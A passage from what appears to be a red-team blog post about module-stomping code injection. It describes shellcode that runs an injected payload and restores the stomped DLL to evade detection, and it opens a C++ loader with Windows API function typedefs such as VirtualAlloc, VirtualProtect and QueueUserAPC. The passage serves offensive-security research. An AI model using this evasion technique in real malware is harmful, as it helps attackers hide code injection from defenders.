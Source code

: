 ##### Shellcode

A very important  piece of this puzzle is the shellcode itself. The shellcode used should launch our code
AND re-patch the DLL to make our injection as difficult to detect as possible.

To build the main shellcode, we will use a technique shared by Aleksandra Doniec (aka [hasherezade][6]).

I have implemented a helper script to do this within [inceptor][1], to facilitate the process a bit.
It's available [here](https://github.com/klezVirus/inceptor/blob/dev/inceptor/pic-generator.py).

> Note:
> Chetan Nayak (aka paranoidninja), among others, also described this technique (for GCC, though) [here][3].

###### Shellcode 1 - Loader

This shellcode need to be used to avoid a problem that I called "shooting on your feet". Indeed, when
this shellcode is executing, the program instruction pointer will be in the "stomped" DLL. To avoid 
overwriting the instructions that we are executing, we will use this loader to set up the shellcode
on the heap and schedule its execution while we are restoring the stomped DLL. 

The logic of our shellcode will be something like this:


  
```cpp
#include <Windows.h>
// #include <stdio.h>
#include "addresshunter.h"

#define FREE

#define MOV_SPACE 12
#define PAGE_SIZE 4096
#define N_ROP_GADGETS 7

typedef HMODULE(WINAPI* LoadLibraryType)(LPCWSTR lpLibFileName);
typedef LPVOID(WINAPI* VirtualAllocType)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect);
typedef BOOL(WINAPI* VirtualProtectType)(LPVOID lpAddress, SIZE_T dwSize, DWORD flNewProtect, PDWORD lpflOldProtect);
typedef BOOL(WINAPI* VirtualFreeType)(LPVOID lpAddress, SIZE_T dwSize, DWORD dwFreeType);
typedef BOOL(WINAPI* VirtualQueryType)(LPCVOID lpAddress, PMEMORY_BASIC_INFORMATION lpBuffer, SIZE_T dwLength);
typedef void (WINAPI* SleepType)(DWORD dwMilliseconds);

#ifdef APC
typedef DWORD(WINAPI* QueueUserAPCType)(PAPCFUNC pfnAPC, HANDLE hThread, ULONG_PTR dwData);
typedef HANDLE(WINAPI* CreateThreadType)(LPSECURITY_ATTRIBUTES lpThreadAttributes, SIZE_T dwStackSize, LPTHREAD_START_ROUTINE lpStartAddress, LPVOID lpParameter, DWORD dwCreationFlags, LPDWORD lpThreadId);
#else
typedef DWORD(WINAPI* SleepExType)(DWORD dwMilliseconds, BOOL bAlertable);
typedef HANDLE(WINAPI* CreateThreadType)(LPSECURITY_ATTRIBUTES lpThreadAttributes, SIZE_T dwStackSize, LPTHREAD_START_ROUTINE lpStartAddress, LPVOID lpParameter, DWORD dwCreationFlags, LPDWORD lpThreadId);
typedef DWORD(WINAPI* WaitForSingleObjectType)(HANDLE hHandle, DWORD dwMilliseconds);
#endif

typedef BOOL(WINAPI* CloseHandleType)(HANDLE hObject);
typedef HANDLE(WINAPI* GetCurrentThreadType)();
typedef HANDLE(WINAPI* CreateMutexType)(LPSECURITY_ATTRIBUTES lpMutexAttributes, BOOL bInitialOwner, LPCWSTR lpName);
typedef BOOL(WINAPI* ReleaseMutexType)(HANDLE hMutex);
```

[1]: https://github.com/klezVirus/inceptor.git
[2]: https://github.com/Idov31/FunctionStomping
[3]: https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/
[4]: https://github.com/Idov31/FunctionStomping
[5]: https://twitter.com/Idov31
[6]: https://twitter.com/hasherezade
[7]: https://twitter.com/modexpblog
[8]: https://www.arashparsa.com/bypassing-pesieve-and-moneta-the-easiest-way-i-could-find/
[9]: https://twitter.com/waldoirc
[10]: https://github.com/waldo-irc/YouMayPasser/
[11]: https://blog.f-secure.com/cowspot-real-time-module-stomping-detection/
[12]: https://twitter.com/_rastamouse
[13]: https://offensivedefence.co.uk/posts/module-stomping/